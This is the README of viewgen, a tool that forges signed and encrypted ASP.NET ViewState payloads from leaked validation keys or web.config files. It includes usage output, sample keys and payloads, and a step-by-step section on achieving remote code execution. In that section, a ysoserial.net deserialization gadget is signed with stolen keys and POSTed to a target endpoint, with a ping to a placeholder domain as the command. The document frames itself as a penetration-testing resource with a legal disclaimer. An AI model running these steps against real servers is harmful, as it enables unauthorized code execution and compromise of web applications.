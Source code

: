 # Viewgen

### ASP.NET ViewState Generator

**viewgen** is a ViewState tool capable of generating both signed and encrypted payloads with leaked validation keys or `web.config` files

---------------

### Installation

**Requirements**: Python 3

`pip3 install --user --upgrade -r requirements.txt` or `./install.sh`

**Docker**

`docker build -t viewgen .` or `docker pull 0xacb/viewgen`

---------------

### Usage
```
$ viewgen -h
usage: viewgen [-h] [--webconfig WEBCONFIG] [-m MODIFIER]
               [--viewstateuserkey VIEWSTATEUSERKEY] [-c COMMAND] [--decode]
               [--guess] [--check] [--vkey VKEY] [--valg VALG] [--dkey DKEY]
               [--dalg DALG] [-u] [-e] [-f FILE] [--version] [--path PATH]
               [--apppath APPPATH]
               [payload]

viewgen is a ViewState tool capable of generating both signed and encrypted
payloads with leaked validation keys or web.config files

positional arguments:
  payload               ViewState payload (base 64 encoded)

options:
  -h, --help            show this help message and exit
  --webconfig WEBCONFIG
                        automatically load keys and algorithms from a
                        web.config file
  -m MODIFIER, --modifier MODIFIER
                        VIEWSTATEGENERATOR value
  --viewstateuserkey VIEWSTATEUSERKEY
                        ViewStateUserKey CSRF value
  -c COMMAND, --command COMMAND
                        command to execute
  --decode              decode a ViewState payload
  --guess               guess signature and encryption mode for a given
                        payload
  --check               check if modifier and keys are correct for a given
                        payload
  --vkey VKEY           validation key
  --valg VALG           validation algorithm
  --dkey DKEY           decryption key
  --dalg DALG           decryption algorithm
  -u, --urlencode       URL encode viewstates
  -e, --encrypted       ViewState is encrypted
  -f FILE, --file FILE  read ViewState payload from file
  --version             show viewgen version
  --path PATH           target web page(only for .NET >= 4.5)
  --apppath APPPATH     application path(only for .NET >= 4.5)
```

---------------

### Examples

```bash
$ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[+] ViewState
(('1628925133', (None, [3, (['enctype', 'multipart/form-data'], None)])), None)
[+] Signature
7441f6eeb4fab5a5f30d6ba99908c08eb683b9e6
[+] Signature match

$ viewgen --webconfig web.config --modifier CA0B0334 "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRk"
r4zCP5CdSo5R9XmiEXvp1LHVzX1uICmY7oW2WD/gKS/Mt/s+NKXrMpScr4Gvrji7lFdHPOttFpi2x7YbmQjEjJ2NdBMuzeKFzIuno2DenYF8yVVKx5+LL7LYmI0CVcNQ+jH8VxvzVG58NQIJ/rSr6NqNMBahrVfAyVPgdL4Eke3Bq4XWk6BYW2Bht6ykSHF9szT8tG6KUKwf+T94hFUFNIXXkURptwQJEC/5AMkFXMU0VXDa

$ viewgen --check -e --vkey '6F16768FDF1E1E4A23CE58625C761F55FD13A1681F7AE3BDB4BB8F99874C7485' --dkey 'F42E58ECE66428868A69ED1F5B6721364A3FC3C490C7FFAAE1EAE96BBA45C88D' "EZgmsZEuppW0eZTumHR9toJTc4MDPJ0CzjIVt6u3FO8TQLDiFbGqvHwKAz72nGrhrCZP3rYE1uXqeU160jZo7xY1v48MACMKLrPiljD3yaM=" --dalg AES --valg SHA256 --decode --path '/default.aspx' --apppath '/'
[+] ViewState
(('91245346', None), None)
[+] Signature: ac264fdeb604d6e5ea794d7ad23668ef1635bf8f0c00230a2eb3e29630f7c9a3
[+] Signature match

$ viewgen --guess "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
[+] ViewState is not encrypted
[+] Signature algorithm: SHA1

$ viewgen --guess "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[!] ViewState is encrypted
[+] Algorithm candidates:
AES SHA1
DES/3DES SHA1
```

---------------

### Achieving Remote Code Execution

Leaking the `web.config` file or validation keys from ASP.NET apps results in RCE via ObjectStateFormatter deserialization if ViewStates are used.

You can use the built-in `command` option ([ysoserial.net](https://github.com/pwntester/ysoserial.net) based) to generate a payload:

```bash
$ viewgen --webconfig web.config -m CA0B0334 -c "ping yourdomain.tld"
```

However, you can also generate it manually:

**1 -** Generate a payload with [ysoserial.net](https://github.com/pwntester/ysoserial.net):

```bash
> ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "ping yourdomain.tld"
```

**2 -** Grab a modifier (`__VIEWSTATEGENERATOR` value) from a given endpoint of the webapp

**3 -** Generate the signed/encrypted payload:

```bash
$ viewgen --webconfig web.config --modifier MODIFIER PAYLOAD
```

**4 -** Send a `POST` request with the generated ViewState to the same endpoint

**5 -** Profit 🎉🎉

---------------

**Thanks**

- [@orange_8361](https://twitter.com/orange_8361), the author of *Why so Serials* (HITCON CTF 2018)
- [@infosec_au](https://twitter.com/infosec_au)
- [@smiegles](https://twitter.com/smiegles)
- **BBAC**
- All contributors

---------------

**CTF Writeups**

- https://xz.aliyun.com/t/3019
- https://cyku.tw/ctf-hitcon-2018-why-so-serials/

**Blog Posts**

- https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/

**Talks**

- https://illuminopi.com/assets/files/BSidesIowa_RCEvil.net_20190420.pdf
- https://speakerdeck.com/pwntester/dot-net-serialization-detecting-and-defending-vulnerable-endpoints

---------------

### ⚠ Legal Disclaimer ⚠

This project is made for educational and ethical testing purposes only. Usage of this tool for attacking targets without prior mutual consent is illegal. Developers assume no liability and are not responsible for any misuse or damage caused by this tool.
